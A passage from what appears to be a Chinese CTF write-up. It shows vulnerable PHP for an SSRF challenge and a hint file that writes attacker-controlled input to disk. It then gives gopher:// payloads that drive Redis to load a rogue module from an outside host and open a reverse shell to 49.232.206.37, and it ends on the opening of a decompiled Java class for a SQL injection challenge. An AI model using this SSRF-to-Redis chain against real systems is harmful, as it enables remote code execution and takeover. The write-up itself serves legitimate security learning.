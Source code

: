 ```PHP
    }  
  
}  
if(isset($_GET['url'])){    $url = $_GET['url'];  
    if(!empty($url)){        safe_request_url($url);  
    }  
}  
else{    highlight_file(__FILE__);  
}  
// Please visit hint.php locally.  
?>
```


hint.php
```php
<?php   
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){  
	highlight_file(__FILE__);   
}   
if(isset($_POST['file'])){  
	file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);   
} 
```


```sh
gopher://0.0.0.0:6379/_auth root
config set dir /tmp/
quit
//设置备份文件路径为/tmp/ 顺便说一下看到当时大佬的博客说试了很多目录，最后发现只有/tmp有权限 ，只需要有读权限即可，所以说平时做渗透或者做题好多试试啊

gopher://0.0.0.0:6379/_auth root
config set dbfilename exp.so
slaveof 49.232.206.37 21000
quit
//设置备份文件名为：exp.so，设置主redis地址为49.232.206.37，端口为21000 地址为自己的VPS
gopher://0.0.0.0:6379/_auth root
module load /tmp/exp.so
system.rev 49.232.206.37 23456
quit
//导入 exp.so ，反弹shell到49.232.206.37:23456

```
## 朱雀组

### Think Java

题目提供部分源码，SqlDict.class有明显的sql注入漏洞
💡 jdbc类似URL解析

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package cn.abc.core.sqldict;

import java.sql.Connection;
import java.sql.DatabaseMetaData;
import java.sql.DriverManager;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;
```